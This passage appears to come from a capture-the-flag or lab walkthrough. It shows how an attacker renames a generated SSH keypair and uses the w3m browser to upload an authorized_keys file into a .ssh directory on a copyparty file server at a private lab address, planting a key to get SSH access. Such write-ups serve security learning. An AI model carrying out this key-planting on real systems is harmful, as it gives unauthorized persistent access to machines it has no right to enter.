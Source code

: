 `ls -alps ./`:
```
ls -alps ./
total 8
0 drwxrwxr-x  2 kali kali   80 Sep 23 10:08 ./
0 drwxrwxrwt 15 root root  360 Sep 23 10:08 ../
4 -rw-------  1 kali kali 2602 Sep 23 10:08 wave
4 -rw-r--r--  1 kali kali  566 Sep 23 10:08 wave.pub ←
```

`mv ./wave ./id_rsa`

`mv ./wave.pub ./authorized_keys`

`w3m http://192.168.56.121:8888/`:
```
.ssh______________________________ ←
[make directory] ←

__________________________________
[start upload]


c  File Name              Size      T        Date
-- ---------------------  --------  -------- -------------------
   copyparty-sfx.py       646042    py       2023-09-02 00:54:31
   user.txt               24        txt      2023-09-04 10:16:28


wave // 16.7 GiB free of 18.5 GiB
```
```
__________________________________
[make directory] ←

/tmp/authorized_keys______________ ←
[start upload] ←


c  File Name              Size      T        Date
-- ---------------------  --------  -------- -------------------
   copyparty-sfx.py       646042    py       2023-09-02 00:54:31
   user.txt               24        txt      2023-09-04 10:16:28


wave // 16.7 GiB free of 18.5 GiB
```
```
upload these 2 files to /.ssh
   • authorized_keys ←

[Cancel]
[OK] ←
```
